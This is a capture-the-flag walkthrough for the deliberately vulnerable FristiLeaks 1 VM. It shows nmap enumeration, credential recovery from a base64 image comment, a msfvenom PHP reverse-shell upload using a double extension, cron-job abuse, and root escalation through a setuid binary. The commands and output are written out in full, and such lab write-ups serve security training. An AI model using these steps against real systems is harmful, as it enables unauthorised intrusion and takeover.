

# Fristi Leak 1
## Enumeration 
### NMAP 
Discover the IP 
```shell
root@kali:~# nmap -F 10.0.2.0/24
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-10 04:36 EST
Nmap scan report for 10.0.2.23
Host is up (0.00019s latency).
Not shown: 99 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)

```
so it has **Port 80** lets do aggressive scan 

```shell
root@kali:~# nmap -A -O -sV -p- 10.0.2.23
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-10 04:40 EST
Nmap scan report for 10.0.2.23
Host is up (0.00032s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE  VERSION
80/tcp open  ssl/http Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries 
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 10.0.2.23

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.31 seconds
```
### Exploring Web Page 
The index page is the following 


Checking the Robots.txt
```text
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
``` 

Check **/cola/** Directory 


Same Image is in the Directory of **/sisi** and **/beer**

so I went back to index and it says **Keep Calm and Drink Fristi**

So I tried **/fristi** and I found admin portal

and the source code looks like this 


There is these 2 Important Notes 
```html
<!-- 
TODO:
We need to clean this up for production. I left some junk in here to make testing easier.

- by eezeepz
-->
```
which tells us the user is called **eezeepz**

and this 
```html
<!-- 
iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLqi1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2FgtOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HKul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12qmD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFheEPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJRU5ErkJggg==
-->
``` 
to decode this I used the following 
just paste the base64 to file and convert it 
```shell
root@kali:~# nano b64
root@kali:~# cat b64 | base64 -d > output
root@kali:~# file output
output: PNG image data, 365 x 75, 8-bit/color RGB, non-interlaced
```
and the output is **PNG** Image which is this 


so now i know the username and probably this is the password 
**keKkeKKeKKeKkEkkEk**
 
and we are logged in 


now it says Upload File 


## Exploitation

lets craft PHP Code and try to add double extension 

```shell
root@kali:~/Desktop/CTF/Vulnhub/FristiLeaks1# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.7 LPORT=4444  > shell1.php.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1109 bytes
```
Upload the File and go to **/uploads/shell1.php.png** to open shell

Setting up the Handler
```shell
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
[*] Sending stage (37775 bytes) to 10.0.2.23
[*] Meterpreter session 1 opened (10.0.2.7:4444 -> 10.0.2.23:47886) at 2019-01-10 06:36:27 -0500

meterpreter > 
```

## Post Exploitation 

Going to **/home/eezeepz** the user we used to log in I found this notes 
```
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
so its crontask exploitation 

to get the flag lets do as the notes says 

```shell
$ echo "/home/admin/chmod -R 777 /home/admin" > runthis
$ cat cronresult
    executing: /home/admin/chmod -R 777 /home/admin
$ cd /home/admin
$ ls
    cat
    chmod
    cronjob.py
    cryptedpass.txt
    cryptpass.py
    df
    echo
    egrep
    grep
    ps
    whoisyourgodnow.txt
$ cat whoisyourgodnow.txt
    =RFn0AKnlMHMPIzpyuTI0ITG
$ cat cryptedpass.txt
    mVGZ3O3omkJLmy2pcuTq
```
```python
$ cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```
Decrypting the files its base64 reversed with ROT13 encryption using simple python
```python
>>> import codecs
>>> import base64
>>> x = "=RFn0AKnlMHMPIzpyuTI0ITG"
>>> b64 = codecs.decode(x[::-1],'rot13')
>>> b64 = base64.b64decode(b64[::-1])
>>> b64
'LetThereBeFristi!'
```
so we have password for fristigod user 
```shell
python -c "import pty; pty.spawn('/bin/bash')"
bash-4.1$ su - fristigod
su - fristigod
Password: LetThereBeFristi!

-bash-4.1$ id
id
uid=502(fristigod) gid=502(fristigod) groups=502(fristigod)
```
I found fristigod directory in */var*
```shell
-bash-4.1$ ls /var
ls /var
cache  empty      games  local  log   nis  preserve  spool  www
db     fristigod  lib    lock   mail  opt  run       tmp    yp
-bash-4.1$ cd /var/fristigod
cd /var/fristigod
-bash-4.1$ ls -la
ls -la
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25  2015 .
drwxr-xr-x. 19 root      root      4096 Nov 19  2015 ..
-rw-------   1 fristigod fristigod  864 Nov 25  2015 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25  2015 .secret_admin_stuff
-bash-4.1$ cd .secret_admin_stuff
cd .secret_admin_stuff
-bash-4.1$ ls -la
ls -la
total 16
drwxrwxr-x. 2 fristigod fristigod 4096 Nov 25  2015 .
drwxr-x---  3 fristigod fristigod 4096 Nov 25  2015 ..
-rwsr-sr-x  1 root      root      7529 Nov 25  2015 doCom
-bash-4.1$ file doCom
file doCom
doCom: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
-bash-4.1$ ./doCom
./doCom
Nice try, but wrong user ;)
```
okay i am missing something there is **.bash_history** file lets read it 
```shell
-bash-4.1$ cat .bash_history
cat .bash_history
ls
pwd
ls -lah
cd .secret_admin_stuff/
ls
./doCom 
./doCom test
sudo ls
exit
cd .secret_admin_stuff/
ls
./doCom 
sudo -u fristi ./doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
sudo /var/fristigod/.secret_admin_stuff/doCom
exit
sudo /var/fristigod/.secret_admin_stuff/doCom
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
groups
ls -lah
usermod -G fristigod fristi
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
less /var/log/secure e
Fexit
exit
exit
```
so let me try the sudo commands 

```shell
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom 
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom 
[sudo] password for fristigod: LetThereBeFristi!

Usage: ./program_name terminal_command
```
okay lets spawn sudo /bin/bash

```shell
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "/bin/bash"
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "/bin/bash"
bash-4.1# id
id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)
```
```shell
bash-4.1# cd /root
cd /root
bash-4.1# ls
ls
fristileaks_secrets.txt
bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```
